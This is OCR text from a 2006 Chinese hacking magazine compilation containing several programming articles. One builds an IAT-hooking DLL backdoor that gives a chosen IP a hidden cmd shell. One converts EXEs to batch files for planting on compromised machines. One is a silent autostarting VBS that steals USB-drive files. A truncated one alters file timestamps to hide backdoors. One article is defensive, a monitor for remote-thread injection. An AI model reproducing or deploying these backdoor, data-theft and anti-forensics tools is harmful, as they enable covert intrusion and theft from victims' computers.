引入函数地址表，即IAT。PE文件在运行时经常要调用API函数，当进程加载时，操作系统会把它要引用到的API函数的地址写到这个位置，当函数调用时，一般会使用如下方式：

```
PUSH *
...
CALL ADDR1
...
ADDR1: JMP [ADDR2]
```

www.hacker.com.cn
2006精华奉献本 下册

## PROGRAMMING ANALYSE
栏目编辑：socket@socket@hacker.com.cn

这里的ADDR2就是引入函数地址表中某个API的指针。ADDR2处的内容就是我们下手的对象了。

#### 实现过程

首先假设我们已经写好了能把Seize.dll插入到进程P的程序，这个很简单，请大家自己动手，我就图个轻闲了。下面来看看Seize.dll是怎么工作的。

1. 构造DllMain函数，以便完成劫持功能。

```
BOOL APIENTRY DllMain ( HINSTANCE hInstance,
DWORD dwReason,
PVOID pvReserved)
{
    switch (dwReason)
    {
        case DLL_PROCESS_ATTACH:
            Seize();
            break;
        default:
            break;
    }
    return TRUE;
}
```

Seize函数就是劫持API的功能，其实现请往下看。

2. 这里就是Seize函数的关键代码了。首先必须清楚，要修改进程内存映像，需要SE_DEBUG_NAME权限，通过下面3个函数实现。

```
OpenProcessToken();
LookupPrivilegeValue();
AdjustTokenPrivileges();
```

它们在中，线程插入程序也要用到的，方法很简单，先要加一行：

```
#pragma comment(lib, "Advapi32")
```

通知编译器挂接Advapi32.lib，然后

```
HANDLE hProcessToken;
TOKEN_PRIVILEGES tp;
LUID luid;
OpenProcessToken(GetCurrentProcess(),
TOKEN_ALL_ACCESS, &hProcessToken);
LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(
    hProcessToken,
    FALSE,
    &tp,
    sizeof(TOKEN_PRIVILEGES),
    (PTOKEN_PRIVILEGES) NULL,
    (PDWORD) NULL);
```

3. 获取IAT的地址。

①这里要根据PE文件格式来计算了，有点乱，大家注意看了。首先得到可执行模块的基地址（DOS stub）：

```
char* lpProcName = "目标模块名称";
HANDLE hModHandle = GetModuleHandle(lpProcName);
DWORD dwBase = (DWORD) hModHandle;
```

你可能会问了，这不是模块“句柄”吗？是，但它也确实等于基地址。

②PE header的地址偏移量存在于（基地址+0x3C）处，则：

```
DWORD * lpdwPE = (DWORD*)(dwBase + 0x3C);
DWORD dwPEAddr = dwBase + (* lpdwPE);
```

③下面就可以找到IAT的地址了，它的偏移量在PE header偏移0xD8处

```
DWORD * lpdwIAT = (DWORD *)(dwPEAddr + 0xD8);
DWORD dwIAT = dwBase + (* lpdwIAT);
```

④查看WSAAccept的真实地址

```
HANDLE hModWs2_32 = LoadLibrary("Ws2_32.dll");
DWORD dwProcAddr = (DWORD)GetProcAddress(hModWs2_32,"WSAAccept");
```

⑤查找IAT中索引WSAAccept的地址（小心不要死循环）

```
while(*(DWORD *)dwIAT != dwProcAddr)
{
    dwIAT += 4;
}
```

此时的dwIAT就已经是我们的目标了。

4. 下面就要修改dwIAT处的内容了。

①要修改内存映像的内容，首先要修改它的访问属性为可写：

```
DWORD dwOut;
VirtualProtectEx( GetCurrentProcess(),
    (LPVOID)dwIAT,
    4,
    PAGE_EXECUTE_READWRITE,
    &dwOut );
```

②偷偷地把我们自己构造的函数地址写进去

```
DWORD dwFakeFunction = (DWORD)&FakeWSAAccept;
WriteProcessMemory( GetCurrentProcess(),
    (LPVOID)dwIAT,
    (LPVOID)&dwFakeFunction,
    4,
    &dwOut );
```

这里有一个小问题需要注意，上面这两个函数中的dwOut，一个是原访问属性的输出，一个是实际写入字符个数的输出，它们都不能为NULL，否则会导致函数调用失败。我在调试程序的时候，发现VirtualProtectEx总是失败，整整困扰了我一天，后来才发现是这个小问题在作怪，真是郁闷！

这里的FakeWSAAccept是我构造的函数，用以冒充WSAAccept，其实现请看往下看。

5. FakeWSAAccept函数也很简单，它先调用WSAAccept，根据返回的Socket查询客户端IP地址验证客户端身份，如果是事先设定的地址，就创建一个Cmd Shell绑定到这个Socket上，并返回INVALID_SOCKET以蒙骗宿主进程，否则直接返回刚才得到的Socket，这种身份验证方法有个好处，别人即使知道你的肉鸡，如果他不能冒充/盗用你的IP地址，就根本无法连接肉鸡。还是看代码吧

我按授权许可协议获得非商业用途的免费使用许可。任何商业用途。www.hacker.com.cn
2006 精华奉献本 下册 CD 389

## PROGRAMMING ANALYSE
》栏目编辑：socket socket@hacker.com.cn

```
Socket WSAAPI FakeWSAAccept(
Socket s,
struct sockaddr FAR * addr,
LPINT addrlen,
LPCONDITIONPROC lpfnCondition,
DWORD dwCallbackData)
{
struct sockaddr_in PeerName;
int NameLen;
DWORD dwThreadId;
skGlobal = WSAAccept( s,
addr,
addrlen,
lpfnCondition,
dwCallbackData );
//调用真实的WSAAccept函数，获得Socket。此处的skGlobal是Socket型的全局变量，用以做Shell线程的参数
getpeername(skGlobal,
(struct sockaddr *)&PeerName,
&NameLen);
//查询客户端IP，确定身份。PARTICULAR_IP是我#define的一个字符串，如"192.168.0.2"
if( PeerName.sin_addr.s_addr
!= inet_addr(PARTICULAR_IP))
{
return(skGlobal);
}
//通过验证，创建Shell线程作为后门
CreateThread( NULL,
0,
& ShellThread,
& skGlobal,
0,
& dwThreadId );
return(INVALID_SOCKET);
}
```

6. 上面的ShellThread是Shell线程入口函数，下面介绍功能。

①创建两个匿名管道，作为Socket与Cmd.exe进程通信的中介。有人说可以直接把Socket绑定到Cmd.exe进程上，这话没错，但它要求Socket是非重叠的（Un-overlapped），而我们得到的Socket并不一定是非重叠的。

```
CreatePipe( &hToCmd, &hFromSock,
&stSecAttrSockToCmd, 0);
CreatePipe( &hToSock, &hFromCmd, &
stSecAttrCmdToSock, 0);
```

②绑定匿名管道到Cmd.exe并创建隐藏进程。

```
GetStartupInfo(& stStartInfo);
stStartInfo.dwFlags =
STARTF_USESHOWWINDOW |
STARTF_USESTDHANDLES;
stStartInfo.wShowWindow = SW_HIDE;
stStartInfo.hStdInput = hToCmd;
stStartInfo.hStdOutput = hFromCmd;
stStartInfo.hStdError = hFromCmd;
GetSystemDirectory(lpCmdLine, MAX_PATH);
strcat(lpCmdLine, "\\CMD.EXE");
CreateProcess( lpCmdLine,
NULL,
NULL,
NULL,
TRUE,
0,
NULL,
NULL,
& stStartInfo,
& stProcInfo );
```

③终于看到曙光了，数据传输就靠这一步了，循环读写Socket和匿名管道，实现后门通信（还要小心别死循环）。

```
ReadFile( hToSock,
lpBuf,
BUF_SIZE,
& dwRetBytes,
NULL );
send(sk, lpBuf, dwRetBytes, 0);
dwRetBytes = recv(sk, lpBuf, BUF_SIZE, 0);
WriteFile(hFromSock,
lpBuf,
strlen(lpBuf),
& dwRetBytes,
NULL );
```

至此，我们的后门就完成了，在Windows 2000 Pro系统、VC++ 6.0环境下编译完成，支持多线程。至于远程线程插入的代码和开机自动加载、后门隐藏等功能，我就不提供了。完整代码请参考附带源程序。

#### 总结

这个后门有一定局限性。1. 必须在宿主进程调用WSAAccept前完成劫持API的工作。2. 宿主进程调用WSAAccept“失败”后不能退出，否则我们的Shell线程就失去了宿主（所谓“魂不附体”）。3. 肉鸡必须暴露在外网，如果有NAT（网络地址转换，相当于肉鸡在内网）机制，后门将无法识别客户端身份。4. 在肉鸡的进程列表里会多出一个Cmd.exe进程。5. 有DLL文件存在，容易被发现。

改进设想：主要是针对第4、5点的问题，可以把劫持功能和执行命令的功能完全用代码实现，然后直接将代码插入，就不需要DLL文件了，也不需要创建Cmd.exe进程了，但会造成编程难度增大。对于第3点的问题，我们可以考虑改为劫持WSARecv和recv函数，然后用字符串方法验证客户端身份，但处理不好，一旦函数调用超时或者让宿主进程发现“非法数据”，Socket有可能被Close掉。

其实这个后门并不复杂，只不过是把平时常见的一些知识和技术综合运用了一下。只要大家平时注意积累，多动脑筋，相信你能写出更好的程序来。作者水平有限，本文如果有什么错误或疏漏，诚然是难免的，但一字之师难求，还请多多指教。

www.hacker.com.cn
2006 精华奉献本 下册

适合读者：编程爱好者、入侵爱好者
前置知识：VB 基础

### EXE2BAT

文/shafiascat

大家一定听说过把BAT（批处理）转换成EXE文件吧？没听说过？！不会吧！那我就简单介绍一下。其实很简单，在C语言中用SYSTEM函数分别调用每一句批处理语句，然后用C的编译器进行编译，得到的就是一个最简单的经过转换的EXE文件，但其执行的结果与BAT是相同的，达到了BAT不被人任何打开的目的，从另一个方面来说就是一种简单的加密方式。今天我们要说的不是它，而是它的弟兄——EXE转BAT。大家一定在想，转后的结果应该是原来BAT的内容，如果你是这么想的话，那就大错特错了，虽然逆向工程或许能达到这个目的，但不在今天讨论的范围之内。好了，不多废话了。

先来说一下原理。十六进制编辑器大家应该用过吧，如WinHex等，我们今天要做的就是将EXE转换成编辑器以十六进制方式打开后能看到的那些十六进制字符，然后通过Debug.exe进行“编译”还原成原来的EXE文件，对扩展名为COM的文件同样有效。那有人一定要说这种转换不是多此一举吗？非也，试想，在拿下了一台机器的权限后想把它变成你的肉鸡，但对方机器因为种种原因（如防火墙等）不能上传EXE，其他方面的安全性也做的相当好，相信你不会就此就放弃了吧，这时EXE转换后得BAT就有用武之地了。在本机将你要上传的EXE文件转换为BAT，用编辑程序（如记事本）打开后全部选定并复制；让后在肉鸡上打开编辑程序，将复制到的代码粘贴进去，并保存为BAT文件，接下来的就是去执行了。执行后你要上传的EXE文件就已经在肉鸡上，剩下的就不用我说了吧。是不是很神奇啊！

在说程序之前需要对几个要点进行说明：
1. >、>>>、<的作用和区别。这是DOS中很有用的重定向功能。“>”是输出重定向，将符号左边的返回的结果输入到右边指定的对象中，对象可以是文件，也可以是设备。如dir c:\> 1.txt；这样，C盘根目录下的所有目录和文件（不包括系统和隐藏文件）的名称，都会被保存在C盘根目录下的1.txt文本文件中。“>>”是追加重定向，其功能和上一个基本相同，唯一的区别是，上面的那个如果指定的文件（1.txt）存在，先清空后写入保存，而这个是在文件的末尾添加，不会清空原来文件的内容。“<”是输入重定向，作用不多说了，与“>”相反。

2. DEBUG.EXE是一个简单的汇编环境，其寄存器是16bit的，数值以十六进制计算，也就是说寄存器最大表示的数是0FFFFH，即十进制的65535，所以要转换的EXE文件不能大于65535Byte。

3. 在汇编中一般代码段的地址是从100H开始的，即十进制的256，所以在0FFFFH的基础上需要减去100H，所以文件不能大于0FEFFH，即十进制的65279B。

4. 在DEBUG中，n是指定文件名命令，r是显示或修改寄存器命令，w是写文件的命令，q是退出DEBUG环境。

有了上面的说明下面就好办多了。首先创建界面（如图1所示），各控件对应的属性见表1。界面我不喜欢太花哨，朴实一点比较好，所以比较丑陋，请大家多多包涵。


| Name | Caption | Enabled | MultiLine |
| ---- | ---- | ---- | ---- |
| 文本框 | txtChooseFile | 空 | False |
| 命令按钮 | cmdChooseOne | ... | True |
| 命令按钮 | cmdRun | &Run | False |
| 通用对话框 | CDLg | 无 | 无 |

表1

接下来就是添加代码了，先写程序初始化的代码。这里只是得到当前的路径，并将其设置为全局，以便后面的程序使用。

```vb
Public FilePath As String
Private Sub Form_Load()
    ' 获取当前的完整路径
    If Right(App.Path, 1) = "\" Then
        FilePath = App.Path & "e2b.bat"
    Else
        FilePath = App.Path & "\" & "e2b.bat"
    End If
End Sub
```

这一步就要写文件选择的代码了。此处主要是用来判断有没有选取文件和选取文件的类型是否EXE或者COM，因为本程序只支持这两种，如果在此稍加修改即可支持其它文件类型了，如果没有选择或选择的类型不对，程序将给出提示并改变颜色，以引起注意（如图2所示）。


黑客防线 网络安全入门 www.hacker.com.cn
邮发代号：80-423 2006 精华奉献本 下册


## PROGRAMMING ANALYSE

栏目编辑: socket ) socket@hacker.com.cn

```vb
Private Sub cmdChooseOne_Click()
'设置文件名为空, 防止重复使用上一次的文件
CDlgLog.FileName = ""
'打开文件选择对话框
CDlgLog.ShowOpen
'判断文件是否选择了文件, 文件是否存在, 是否是EXE或COM文件
If Trim(CDlgLog.FileName) <> "" And Dir(Trim(CDlgLog.FileName)) <> "" And UCase(Right(Trim(CDlgLog.FileName), 4)) = ".EXE" Or UCase(Right(Trim(CDlgLog.FileName), 4)) = ".COM" Then
    '是, 则获取文件名
    txtChooseFile.BackColor = vbWhite
    txtChooseFile.Text = Trim(CDlgLog.FileName)
    '使RUN按钮有效, 并设置焦点
    cmdRun.Enabled = True
    cmdRun.SetFocus
Else
    '否, 则提示
    txtChooseFile.BackColor = vbCyan
    txtChooseFile.Text = "可能未选择文件或者文件不存在, 也可能不是EXE或COM文件! "
    cmdRun.Enabled = False
End If
End Sub
```

剩下的就是本程序的核心部分了,其实有了上面的基础也就不是很难了。因为对文件进行操作,所以错误陷阱是一定要设置的,否则出点小意外,你的程序就可能全盘崩溃了。这一步先要判断文件是否大于65279B,如果大于给出提示并退出此过程,防止BAT执行后的文件产生错误,其次就是将文件读入,每次进行一个字节的操作,将其转换为十六进制后追加写入BAT文件,在每进行16个字节的转换后重新计算偏移地址并在后面添加重定向符号">>",如果要转换的EXE文件不是16的倍数,在最后一次转换后添加">>",防止程序在末尾出错,最后要计算出文件大小的十六进制值并将DEBUG相关的命令写入BAT文件,在转换完成后删除临时文件并给出文件存放路径的提示(如图3所示)。


```vb
Private Sub cmdRun_Click()
'使RUN按钮无效, 防止再次执行
cmdRun.Enabled = False
'设置错误陷阱, 防止程序崩溃
On Error Resume Next
'判断E2B.BAT文件是否存在, 有则删除
If Dir(FilePath) <> "" Then Kill (FilePath)
'定义文件操作相关的变量
Dim FileNum As Integer '自由的文件号
Dim FileContent() As Byte '放文件内容
Dim FileSize As Long '文件大小
'获取自由文件号
FileNum = FreeFile()
'获取文件大小
FileSize = FileLen(txtChooseFile.Text) - 1
'判断文件是否大于65278个字节
If FileSize >= 65279 Then
    '是则提示, 并结束程序, 防止程序崩溃
    txtChooseFile.BackColor = vbCyan
    txtChooseFile.Text = "文件不能超过63KB, 请重新选择! "
    cmdRun.Enabled = False
    Exit Sub
End If
'打开指定的EXE文件
Open txtChooseFile.Text For Binary As FileNum
'重新定义文件内容变量数组
ReDim FileContent(FileSize)
'读入本程序可执行文件内容
Get FileNum, , FileContent
'关闭文件
Close FileNum
'定义转换代码相关的变量
Dim i As Long '字节计数器
Dim m As Long '段计数器
Dim HexStr As String '转换后的十六进制字符
Dim Offset As String '段地址
Dim Code As String
m = 1
'每次一个字节为单位进行转换, 直到文件结束。
For i = 1 To FileSize Step 1
    '转换十六进制代码(机器码)
    HexStr = Hex(FileContent(i - 1))
    '判断是否到16次
    If (i - 1) Mod 16 = 0 Then
        '是则计算段地址
        Offset = Hex(256 + (m - 1) * 16)
        Code = Code & "@echo e " & Offset & " "
        '段计数器+1
        m = m + 1
    End If
    '判断十六进制数是否0-9中的一个
    If Len(HexStr) = 1 Then
        '是则在前面补上一个"0", 补足两位
        Code = Code & "0" & HexStr & " "
    Else
        Code = Code & HexStr & " "
    End If
    '判断是否已进行了16次
    If i Mod 16 = 0 And i <> 0 Then
        '是则在末尾加上 ">>tmp"
        Code = Code & ">>tmp"
        '将转换后的十六进制字符(机器码)放入文件
        FileNum = FreeFile()
        Open FilePath For Append As FileNum
        Print #FileNum, Code
        Close FileNum
        '清空临时存放变量, 防止被重复使用
        Code = ""
    End If
    '1=i+1后重复执行
Next i
'如果文件不是16的倍数, 那么在文件转换结束后添加">>tmp"
If FileSize Mod 16 <> 0 Then Code = Code & ">>tmp" & vbCrLf
'写入十六进制代码(机器码)转换为EXE文件的代码
Code = Code & "@echo rcx>>tmp" & vbCrLf
Code = Code & "@echo. " & Hex(FileSize + 1) & ">>tmp" & vbCrLf
Code = Code & "@echo n tmpl>>tmp" & vbCrLf
Code = Code & "@echo w>>tmp" & vbCrLf
Code = Code & "@echo q>>tmp" & vbCrLf
Code = Code & "@debug tmp>nul"
'定义EXE文件名变量并获取EXE文件名
Dim ExeName As String
ExeName = Right(txtChooseFile.Text, Len(txtChooseFile.Text) - InStrRev(txtChooseFile.Text, "\"))
'改名并执行EXE文件的代码
Code = Code & "@ren tmp1 " & ExeName & vbCrLf
'上句 Code = Code & "@start " & ExeName & vbCrLf
'删除不需要的临时文件的代码
Code = Code & "@del tmp"
'将代码写入文件
FileNum = FreeFile()
Open FilePath For Append As FileNum
Print #FileNum, Code
Close #FileNum
'提示成功,并返回存放路径及文件名
txtChooseFile.Text = "文件已经转换完成,存放在当前目录下,名为e2b.bat"
End Sub
```

至此,一款我们自己的EXE转BAT工具就诞生了。本程序在Windows 2000+VB6编译通过。

适合读者: 程序员、系统安全分析师、入侵爱好者、网管
前置知识 C语言、Windows网络编程

### 编程实现 线程插入后门防范

文 / 图 dahuabaobao[E.S.T]

#### 前言

2004年,我曾经写过一篇文章《握着你的手清除DLL后门》文中叙述了基本的DLL后门清除方法,但都是被动防御,是否有主动防御的方法呢? 经过思考 我觉得可以对远程线程进行监视,以查询蛛丝马迹。虽然监视远程线程并不是“完全”的主动防御,但通过监视远程线程并记录详细的日志,包括插入进程、调用进程和新创建线程的详细信息,可以帮助管理员分析系统安全性,及时发现线程插入后门。本文监视程序在Windows 2000 Server SP4下测试成功。

#### 原理概述

写过线程插入后门的朋友都知道,线程插入通过CreateRemoteThread函数完成,我们可以通过HOOK了CreateRemoteThread函数实现远程线程的监视,CreateRemoteThread函数最终调用的Native API是ZwCreateThread函数,但由于CreateThread也是调用的CreateRemoteThread函数,所以必须使用进程ID加以区分。
确定了HOOK函数,下一步则要解决如何获取进程、线程信息。CreateRemoteThread函数中只有一个进程句柄(要插入进程的句柄)和一个插入后返回的线程句柄,我们起码要获取3个信息 进程名、PID和线程ID。翻阅MSDN 2003,没有可以通过句柄获取Name和ID的函数,好在天无绝人之路,Native API中有两个未公开的函数可以获取比较详细的信息:

```cpp
ZwQueryInformationProcess :: //获取详细的进程信息
ZwQueryInformationThread :: //获取详细的线程信息
```

只要给这两个函数传递进/线程句柄,就能获取详细的信息,调用它们需要的权限是PROCESS_QUERY_INFORMATION和THREAD_QUERY_INFORMATION。这对于线程插入是足够的,因为调用CreateRemoteThread函数需要5个权限。

```cpp
PROCESS_CREATE_THREAD /**/ //创建线程
PROCESS_QUERY_INFORMATION //获取进程信息
PROCESS_VM_OPERATION /**/ //允许改变页面属性
PROCESS_VM_WRITE /**/ //允许写入数据
PROCESS_VM_READ /**/ //允许读取数据
```

并且经过我的测试,CreateRemoteThread函数返回的线程句柄具备THREAD_QUERY_INFORMATION权限,可以使用ZwQueryInformationThread查询详细信息。需要的信息都有了,可以着手编写代码了。

#### 代码分析

ZwQueryInformationProcess和ZwQueryInformationThread支持多种查询类型,我们需要查询的是ProcessBasicInformation=0和ThreadBasicInformation=0,它们返回如下两个结构:

```cpp
typedef struct proc_basic_info
{
    NTSTATUS ExitStatus; //退出状态
    ULONG PebBaseAddress; //PEB地址
    ULONG AffinityMask; //访问权限
    ULONG BasePriority; //权限类
    ULONG UniqueProcessId; //进程ID
    ULONG InheritedFromUniqueProcessId; //父进程ID
}PROCESS_BASIC_INFORMATION,*LPPROCESS_BASIC_INFORMATION;

typedef struct thread_basic_info
{
    NTSTATUS ExitStatus; //退出状态
    ULONG TebBaseAddress; //TEB地址
    CLIENT_ID ClientId; //进程ID
    ULONG AffinityMask; //访问权限
    ULONG BasePriority; //权限类
    ULONG Priority; //权限类
}THREAD_BASIC_INFORMATION,
*LPTHREAD_BASIC_INFORMATION;
```

不错吧！PEB和TEB的地址都有了，想获取什么信息都没问题了。不过本程序只提取了进程名、ID和线程ID，你需要什么信息可以随时扩展。我编写了两个函数，用于获取这些信息。首先是GetProcessNameAndId

```cpp
BOOL GetProcessNameAndId(HANDLE hProcess,TCHAR *ProcessName,
 DWORD *ProcessId)
{
......
//加载NTDLL.DLL
if ((hModule=LoadLibrary("ntdll.dll"))==NULL)
{
//错误处理
}
//取函数地址
ZwQueryInformationProcess =
(ZwQueryInformationProcessOld) GetProcAddress
(hModule,"ZwQueryInformationProcess");
//获取进程信息
ntStatus=ZwQueryInformationProcess(hProcess,
ProcessBasicInformation,&ProcInfo,
sizeof (ProcInfo),NULL);
//打开
if ((hProc=OpenProcess(PROCESS_ALL_ACCESS,FALSE,
ProcInfo.UniqueProcessId))==NULL)
{
//错误处理
}
GetModuleBaseName(hProc,NULL,ProcessName,
MAX_PATH-1); //取进程名
*ProcessId=ProcInfo.UniqueProcessId; //进程ID
......
return TRUE;
}
```

进程名和ID已经得到，注意进程名不是全路径。如果要取全路径，则使用GetModuleFileNameEx函数，封装在PSAPI中。获取线程ID的函数由GetThreadId实现。

```cpp
BOOL GetThreadId (HANDLE hThread,DWORD *ThreadId)
{
......
//省略获取函数地址代码段
//获取线程信息
ntStatus=ZwQueryInformationThread(hThread,
ThreadBasicInformation,&ThreadInfo,
sizeof (ThreadInfo),NULL);
*ThreadId=ThreadInfo.ClientId.ThreadId; //线程ID
......
return TRUE;
}
```

需要的基本信息已经得到了，可以记录日志了。为了加以区别，每一个线程插入，记录一个单独的日志，日志文件名以被插入进程名为准，日志中除了上边的信息，还要有系统的当前时间，这些通过UpdateLogData函数完成：

```cpp
BOOL UpdateLogData (TCHAR *ProcessName,DWORD
ProcessId,
 DWORD ThreadId,DWORD CurrPid)
{
......
//以进程名作为日志文件名 存放在C盘下
strcpy(FileName,"C:\\");
strncat(FileName,ProcessName,strlen(ProcessName)-3);
//去掉进程exe扩展名
strncat(FileName,"log",3); //连接log扩展名
GetSystemTime(&SystemTime);
//取系统时间
fp=fopen(FileName,"a+"); //打开文件
hCurrProc=OpenProcess(PROCESS_ALL_ACCESS,
FALSE,CurrPid);
//获取调用进程句柄
GetModuleFileNameEx(hCurrProc,NULL,CurrName,
MAX_PATH-1);
//调用进程完整路径
//输出系统时间
fprintf(fp,"\n\n%d - %d - %d - %d - %d - %d - %
.2d\n",SystemTime.wYear,
SystemTime.wMonth,SystemTime.wDay+1,(SystemTime.
wHour+8)%24,
SystemTime.wMinute,SystemTime.wSecond,SystemTime.
wMilliseconds);
fprintf(fp,"Call Process Name :\t%s\n",CurrName);
//调用进程名
fprintf(fp,"Call Process Id :\t%ld\n",CurrPid);
//调用进程ID
fprintf(fp,"Inject Process Name :\t%s\r\n",ProcessName);
//插入新线程的进程名
fprintf(fp,"Inject Process Id :\t%ld\n",ProcessId);
//进程ID
fprintf(fp,"Inject New Thread Id:\t%ld\n\n",ThreadId);
//插入的新线程ID
......
return TRUE;
}
```

记录的时间格式为年—月—日—时—分—秒—毫秒。万事俱备，现在只需用HOOK函数将它们“综合”起来了！

```cpp
HANDLE WINAPI HookCreateRemoteThread (HANDLE
hProcess,......)
{
......
//请求原函数 遵循__stdcall调用约定，参数从右向左入栈
__asm
{
......
push hProcess
mov eax,NewCreateRemoteThread //原函数地址
call eax //请求
mov ThreadHandle,eax //取返回值
}
if (!(GetProcessNameAndId(hProcess,ProcName,&ProcId)))
{
//错误处理
}
}
```


#### 编程解析

} 栏目编辑 | socket } socket@hacker.com.cn

```c
if (!(GetThreadId(ThreadHandle,&ThreadId)))
{
    //错误处理
}

if (!(UpdataLogData(ProcName,ProcId,ThreadId,GetCurrentProcessId())))
{
    //错误处理
}

......

return ThreadHandle;
```

很简单吧？轻松完成远程线程的监视，下面我们使用这个程序演练一下，看看效果如何。

### 实战演练

这里我选择两个线程插入后门 Beast2.07(禽兽2.07)和Devil6(魔鬼6号)。两款工具都很有名，使用的人很多，先来看Devil6。

Devil6中有详细的中文帮助，使用方法我就不多说了，我们按照图1所示配置Devil6，然后运行Devil6.exe就可以完成后门的安装。Devil6.exe会将线程插入到Csrss.exe，这是Win32子系统的进程，不能终止。


运行后就可以查看效果了，我设置了一部分调试信息输出到DbgView，图2是运行Devil6.exe后DbgView的输出。


不难看出，[1056]是Devil6.exe进程的ID，而插入线程的进程ID是196，新线程的ID是840，还有PEB/TEB地址等其它信息。再到C盘下看看日志文件，如图3所示。


清清楚楚地记录了Devil6.exe进程的全路径和PID、插入进程名和ID以及系统时间，并且在任务管理器也证实了196是Csrss.exe，我们的监视程序生效了！

Beast2.07是现在一款比较火的木马，功能N多，使用可以参考它的帮助，我们按照图4所示配置Beast2.07，使其插入Services.exe进程中，其他随便设置，最后点击“Save Server”生成服务端Server.exe(我将其改名Beast.exe)，运行完成后门的安装。

还是使用DbgView查看效果，如图5所示。


[948]是Beast.exe的进程ID，插入的进程ID是244，新线程ID是864。查看日志文件，如图6，结合任务管理器，不用我说了吧？！


分辨后门的关键在于“Call Process Name”，因为


线程插入必须有注射器，它对调用进程是很重要的，如果你分析Explorer.exe，你会发现它创建了很多远程线程，但调用进程却是本身(如图7所示)，这是因为Explorer.exe是一个外壳程序。总之，通过分析“Call Process Name”，是可以发现线程插入后门的！


#### 后记

本文的程序很简陋，只到了基本的监视，利用PID可以分辨是远程线程还是本地线程，有兴趣的朋友可以写个界面，加个警报功能，到时别忘了给我一个！对本文有任何异议，欢迎发邮件于我交流：dahubaobao@eviltoal.com。


www.hacker.com.cn
2006精华奉献本 下册

适合读者: 编程爱好者
前置知识 VBS 基础

看黑防有一年多了,终于狠下心来给黑防投稿。前面有一篇文章《闪盘数据强盗——U盘窥探者》,讲的是写程序定时检查U盘并复制文件到硬盘。无巧不成书,我也遇到了同样的问题,不过我可不 会C语言,但却用VBS脚本巧妙地解决了问题。
废话不多说了,一起来看看我的思路,脚本应该具备以下功能:
1.开机自启动
2.定时复制U盘所有文件及文件夹到指定位置
3.无任何错误提示(很关键,如果不想找死的话)。
思路很简单,接下来就是脚本的具体内容了,我在每行脚本后都加了注释,但愿比我还笨的人也能看懂:

```vbscript
On Error Resume Next  '忽略异常,否则可能会有错误提示框
Set fso=CreateObject("Scripting.FileSystemObject") '创建fso
dim n
Set n=CreateObject("Wscript.Shell")  '声明变量n
Set dir = fso.GetSpecialFolder(1)  '读取system32文件夹路径
fso.GetFile(WScript.ScriptFullName).Copy(dir&"\copy.vbs")  '读取自身文件名,并复制自己到system32文件夹,重命名为copy.vbs
dim r
Set r=CreateObject("Wscript.Shell")  '声明变量r,用于读写注册表
r.RegWrite"HKLM\Software\Microsoft\Windows\CurrentVersion\Run\" "copy.vbs","REG_SZ"  '为脚本添加启动项
fso.CreateFolder("c:\windows\explorer") '创建文件夹,用来存放U盘文件
for i = 1 to 2
i = 1  '看出来了么,这是个死循环,变量i不可能
```

### VBS脚本也[偷]U盘数据

文/图 无名


```vbscript
到2,所以可以不断检查U盘并复制内容
fso.CopyFile "i:\*.*", "c:\windows\explorer\", True '复制I盘(U盘盘符)所有文件到指定文件夹
fso.CopyFolder "i:\*", "c:\windows\explorer\", True '复制I盘所有文件夹到指定文件夹
wscript.sleep 10000  '挂起10秒,此属性单位为毫秒
next
```

把上述内容存为kubau0.vbs,才几百字节。
提示一点,因为脚本内容有对注册表和文件的操作,所以执行时要把杀毒软件的网页或脚本之类的监控关掉,否则会不客气的弹出个对话框问你是否执行,如果引起老师怀疑的话……那你就节哀吧。

现在,只要在目标机上执行一次脚本(什么?没反应?当然不会有了!看看进程列表,如果有一个wscript.exe就说明已经执行成功了),脚本执行会停留在死循环里,每隔10秒复制一次文件到C:\windows\explorer\文件夹(间隔时间和目标文件夹均可自行设置),重启后会自动执行,且不会有任何异常提示,毕竟安全才是最重要的嘛!这也是VBS的特点,一切悄无声息。

不过脚本也不是没有缺点,那就是在复制文件的时候U盘灯会狂闪不止,且机器运行速度会明显变慢,且无法通过安全删除硬件来停止U盘,不过好在老师们多是才鸟(才鸟?什么东西?有才的菜鸟?),但是如果哪位高手能帮我解决,还清不吝赐教!
另外,别以为复制完就万事大吉了,最好定期删除没用的文件,否则目标文件夹会急剧膨胀,比如我们班,一星期下来就超了1GB,很恐怖!

服务器被人侵后,管理员通常会根据文件的创建时间来查找被安装的后门。这种方法简单实用,适合于查找大多数的后门程序。尤其是一些ASP后门,管理员在FTP软件中就可以很直观的看到文件时间的改变情况。

从入侵者的角度来说,如何避免这种情况的发生?我们可以编写一个能修改文件时间的程序来更改后门的创建时间,从而使我们安装的后门更加隐蔽。这个后门最好写成在命令行下执行的,这样使用起来更加通用。代码写起来也非常简单,全部程序只用了一个函数搞定,全部代码如下:

```pascal
program FileDate;
{$APPTYPE CONSOLE}  // 告诉编译器这是一个控制台应用程序
```

适合读者: 编程爱好者、入侵爱好者
前置知识 Delphi基础

### 编程实现修改后门时间

文/ forever


```pascal
uses
  Windows,
  SysUtils,
  type
  TFileTimeType = (fttCreation, fttLastAccess, fttLastWrite);
var
  YHB_1: string; //
  YHB_2: string; // 设置文件时间函数
```

黑客X档案
2006精华奉献本 下册
www.hacker.com.cn
邮发代号: 22-24

```pascal
function SetFileDateTime(const FileName: string;
FileTimeType: TFileTimeType; DateTime: TDateTime): Integer;
var
  Handle: THandle;
  LocalFileTime, FileTime: TFileTime;
  DosDateTime: Integer;
  I : TFileTimeType;
  FileTimes: array[TFileTimeType] of Pointer;
begin
  Result := 0;
  DosDateTime := DateTimeToFileDate(DateTime);
  Handle := FileOpen(FileName, fmOpenWrite or fmShareDenyNone);
  if Handle <> INVALID_HANDLE_VALUE then
  try
    for I := ftCreation to ftLastWrite do FileTimes[I] := nil;
    DosDateTimeToFileTime(LongRec(DosDateTime).Hi,
    LongRec(DosDateTime).Lo, LocalFileTime);
    LocalFileTimeToFileTime(LocalFileTime, FileTime);
    FileTimes[FileTimeType] := @FileTime;
    if SetFileTime(Handle, FileTimes[ftCreation],
    FileTimes[ftLastAccess],
    FileTimes[ftLastWrite]) then Exit;
  finally
    FileClose(Handle);
  end;
  Result := GetLastError;
end;
// 命令行提示：
procedure DoBit;
begin
  WriteLn('');
  WriteLn('******    FileDate.exe By:Storver    ******');
  WriteLn('****** Http://www.storver.net    ******');
```

```pascal
  WriteLn('******    Email:sforever@tom.com    ******');
  WriteLn('');
  WriteLn('Usage: FileDate <Option1> <Option2>');
  WriteLn('');
  WriteLn('Example:');
